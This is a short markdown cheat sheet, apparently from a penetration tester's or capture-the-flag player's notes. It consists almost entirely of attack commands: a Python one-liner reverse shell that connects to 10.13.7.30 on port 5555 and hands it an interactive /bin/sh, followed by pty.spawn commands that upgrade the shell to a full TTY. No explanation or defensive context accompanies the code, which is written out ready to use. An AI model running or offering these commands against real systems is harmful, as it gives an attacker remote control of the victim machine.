 ```yaml
---
category: Uncategorized
tags: []
---
```

python

Reverse Shell

~~~python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.7.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

TTY Support for Linux

~~~python
python -c "import pty;pty.spawn('/bin/bash')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~python
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

